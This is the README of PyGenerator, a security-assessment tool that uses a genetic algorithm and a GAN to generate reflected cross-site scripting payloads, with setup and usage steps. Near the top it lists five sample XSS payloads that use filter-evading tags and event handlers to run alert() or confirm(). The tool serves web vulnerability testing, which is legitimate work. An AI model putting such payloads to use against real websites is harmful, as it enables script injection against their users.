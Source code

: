 # PyGenerator
**Fully automatically generate numerous injection codes for web application assessment.**

---
PyGenerator can fully automatically generate numerous injection codes for detecting web app vulnerabilities.  
Current version is beta. Therefore, it can only generate injection codes of reflected Cross Site Scripting (XSS).  

Following injection codes were generated by PyGenerator.  
```
<script>al¥u0065rt();</script></tr><th/
<iframe/onload=alert();>size=<command
<video><source onerror=javascript:alert();>kind=
<svg/<canvas/<select/onload=confirm(1);>
<object/src=x onload=alert();¥n<script type="text/javascript">
```

 ![overview](./img/pygenerator_overview.png)  

Please refer to this [blog](https://www.mbsd.jp/blog/20170921.html) for detail explanation of pyGenerator.  

## Processing flow
PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

 1. Gather the components of injection codes.  
 2. Create some injection codes using Genetic Algorithm.  
 3. Generate numerous injection codes using Generative Adversarial Networks.  

## Installation
### Step.0 Git clone pyGenerator's repository.
```
PS C:\> git clone https://github.com/13o-bbr-bbq/machine_learning_security.git
```

### Step.1 Install required python packages.
```
PS C:\> cd machine_learning_security/Generator
PS C:\machine_learning_security\Generator> pip -V
pip 10.0.1 from c:\users\itaka\anaconda3\lib\site-packages\pip (python 3.6)
PS C:\machine_learning_security\Generator> pip install -r requirements.txt
```

### Step.2 Get the web driver for selenium.
[!] I use the Google chrome driver in this example.  

You get the [chrome driver](http://chromedriver.chromium.org/downloads) for selenium.  
And you have to move downloaded driver to `web_drivers` directory.  

```
PS C:\machine_learning_security\Generator> mkdir web_drivers
PS C:\machine_learning_security\Generator> mv chromedriver.exe web_drivers
```

### Step.3 Get html checker (tidy).
[!] I use the `tidy 5.4.0 win64` in this example.  

You get the [`tidy 5.4.0 win64`](http://binaries.html-tidy.org/).  
And you have to put the tidy directory to pyGenerator root.  

```
PS C:\users\itaka\Downloads> mv tidy-5.4.0-win64 C:\machine_learning_security\Generator\
```

## Usage
### Step.0 Execute pyGenerator
```
PS C:\machine_learning_security\Generator> python generator.py
[+] Launched : chrome 68.0.3440.106
[+] 1/10 Create individuals using Genetic Algorithm.
[+] Evaluating html place : body_tag
[+] Create population.
[*] Created individual : [74, 59, 50, 24, 28].
[*] Created individual : [61, 49, 66, 18, 4].
[*] Created individual : [38, 47, 4, 9, 22].

...snip...

[*] Evaluation individual in body_tag: 97/100 in 1 generation
[*] Evaluation individual in body_tag: 98/100 in 1 generation
[*] Evaluation individual in body_tag: 99/100 in 1 generation
[*] Evaluation individual in body_tag: 100/100 in 1 generation
[+] 1 generation result: Min=-1.8, Max=0, Avg=-0.92.
[+] Evaluate individual : 2/1000 generation.
[*] Evaluation individual in body_tag: 1/100 in 2 generation
[*] Evaluation individual in body_tag: 2/100 in 2 generation
```

### Step.1 Check generated injection codes.
```
PS C:\machine_learning_security\Generator> cd result
PS C:\machine_learning_security\Generator\result> ls
```

## Operation check environment
* Hardware  
  * OS: Windows 10  
  * CPU: Intel(R) Core(TM) i7-6500U 2.50GHz  
  * GPU: None  
  * Memory: 8.0GB  
* Software  
  * Python 3.6.0  
  * Jinja2==2.10  
  * Keras==2.1.6  
  * numpy==1.13.3  
  * pandas==0.23.0  
  * selenium==3.14.0  

## Licence
[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Contact us
Isao Takaesu  
takaesu235@gmail.com  
[https://twitter.com/bbr_bbq](https://twitter.com/bbr_bbq)
